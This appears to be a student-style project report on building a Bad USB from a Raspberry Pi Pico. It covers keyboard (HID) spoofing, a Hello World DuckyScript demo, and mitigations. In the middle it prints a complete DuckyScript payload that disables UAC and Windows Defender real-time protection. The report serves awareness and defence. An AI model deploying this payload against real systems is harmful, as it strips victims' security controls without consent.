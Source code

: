 # Creating a Bad USB using a Raspberry Pi Pico

## Introduction
This report details the creation of a Bad USB device using a Raspberry Pi Pico. It will cover the definition of Bad USBs, their potential applications, altercation of the Pico, a demonstration of executing a malicious payload in Windows 10, and finally discuss mitigation strategies. This project aims to highlight the ease of which an individual can access and deploy potentially harmful tools and to prove a cyber security threat can come from anywhere. 

## What are Bad USBs?
Bad USBs are devices that aim to imitate standard USB peripherals (such as keyboards or storage devices) with the ability to execute malicious code. They have the ability to perform tasks that would normally require user interaction and can perform these actions with such speed that the target device could be compromised within minutes. Bad USBs usually use libraries to make themselves appear as a Human Interface Device (HID), bypassing any controls implemented on the system that attempt to block mass storage devices. Once connected, a pre-loaded payload will be executed at varying levels of discretion depending on the specific script and target.

There are many applications of Bad USBs such as OS information detection, Wi-Fi password exfiltration and keylogging. Thanks to network capabilities on some microcontrollers, Bad USBs can also be operated remotely to change payloads and exfiltrate user data. However, alongside malicious use cases these devices have genuine applications for automation in activities such as threat hunting and vulnerability patching, working at speeds much faster than humans can.

## Prepping the Pico
Ready-made Bad USB tools already exist, such as the USB Rubber Ducky by Hak5 which uses its own programming language - DuckyScript. These come with significant costs and can easily have their function replicated by a microcontroller. The Raspberry Pi Pico costs anywhere from £4-£8 depending on the model you choose and has 2Mb of onboard flash memory which can be used to store MicroPython scripts compatible with most payloads intended for the Rubber Ducky. 

To change the Pico, CircuitPython had to be installed first to run the code and host the libraries required for the final project. After this was installed to the board, I populated the Pico's lib folder with Adafruit’s HID spoofing library to circumvent any challenges against mass storage devices later. I then installed code to the Pico that would utilise this library and aid the board in translating DuckyScript code to MicroPython allowing for a payload to be added.

Hak5 maintain a GitHub repository with a large number of payloads suitable for most Bad USBs, ranging from pranks to malicious code which gave me a wide variety of scenarios to test the functionality of my newly created device.

## Example Code Execution
As an initial test, I uploaded a basic script which would type Hello World!


https://github.com/user-attachments/assets/300d63a6-e5e6-4324-8b4c-97c262e540da

```
DELAY 1000
GUI r
DELAY 1000
STRING notepad
DELAY 1000
ENTER
DELAY 1000
STRING Hello World
```

This code begins by opening the run menu and searching for the notepad app, before typing a message to the user. This code and video demonstration shows both the simplicity of Bad USB scripts but also the immense speed of execution which would be challenging to effectively deal with. The code itself is a combination of keystrokes and delays to imitate a user while creating a buffer between actions to avoid missing a step and ruining the payload’s function.

![HID](https://github.com/user-attachments/assets/d1439c56-d83d-413e-a76f-db9d82b3bd68)

**Fig.1 - Device Manager detecting Pico as HID**

Fig.1 shows the microcontroller successfully obscuring itself as a Human Interface Device, together with storage.disable_usb_drive() in code.py successfully hides the device’s ability to store malicious code from the system and its users.

## Disabling Windows Defender 
For a real-world example, I decided to use a payload designed to lower User Access Controls (UAC) on a system and then delay real-time threat detection. The attack was conducted in a sandboxed Windows 10 environment to analyse the exact actions of the code in a safe manner without interference. It's important to note that when exploring malicious technologies, you only use them against your own devices unless given expressed permission to target someone else’s machine.


https://github.com/user-attachments/assets/06e7d209-7832-4546-964a-9abbe396c23a

![UAC](https://github.com/user-attachments/assets/0b938019-bb22-4405-99c3-e9536cd2bd02)

**Fig.2 - User Access Controls post-attack**

As seen in Fig.2 the Bad USB can been seen searching for UAC before disabling them entirely for the user. It should be noted that this action requires administrative access so sensible assignment of user privileges could prevent this threat.

```
REM Disable UAC
DELAY 1000
CONTROL ESCAPE
DELAY 1000
STRING uac
DELAY 1000
ENTER
DELAY 1000
DOWNARROW
DELAY 1000
DOWNARROW
DELAY 1000
DOWNARROW
DELAY 1000
TAB
DELAY 1000
ENTER
DELAY 1000
LEFT
DELAY 1000
ENTER
DELAY 1000

REM Disable Virus & Threat Protection
CONTROL ESCAPE
DELAY 1000
STRING virus protection
DELAY 1000
ENTER
DELAY 2000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
ENTER
DELAY 1000
SPACE
DELAY 1000
ALT F4
```

This code comes from a ThreatLocker display show designed for the Zero Trust World convention 2025. The code itself is again incredibly simple, using keys to navigate through menus to the desired controls and then disabling them. The link to the repository this payload originated from can be found below along with any other resources used or mentioned in this project.

## Mitigation Strategies
Preventing attacks originating from Bad USBs is difficult due to the small sizes of the devices meaning they could be hidden anywhere. The use of a Pico eliminates the option to hide in plain sight or mislead an employee into plugging it in however it’s still very capable of being obscured in the USB ports directly on the motherboard.

The best options for mitigating Bad USB attacks are being mindful of physical security. You should never plug in unknown devices as they could be loaded with malware waiting for a target. As well as this, locking devices when away helps prevent any damage caused by the payloads as they mostly require the user to already be logged in and won't be able to adjust to this restriction. Lastly, blocking unused USB ports and locking USB peripherals into place helps to cut down the number of attack vectors for this type of exploit despite the potential inconvenience caused.

## Conclusion
This Project demonstrates how easy malicious tools can be created and deployed without any prior experience in the field due to the wealth of resources online. The accessibility of hardware like the Raspberry Pi Pico also highlights the need for robust security practices and increased levels of user awareness. The ability to launch a potentially devastating attack with a device costing £4 should be a significant concern for anyone involved in securing IT devices as the methods utilised by Bad USBs will only advance in the future.

## Relevant Links
Pico-Ducky project (https://github.com/dbisu/pico-ducky)
CircuitPython (https://circuitpython.org/board/raspberry_pi_pico/)
Adafruit libraries (https://github.com/adafruit/Adafruit_CircuitPython_Bundle) 
Hak5 Payloads (https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library) 
ZTW2025 Payloads (https://github.com/ztwAdmin/ZTW-2025)
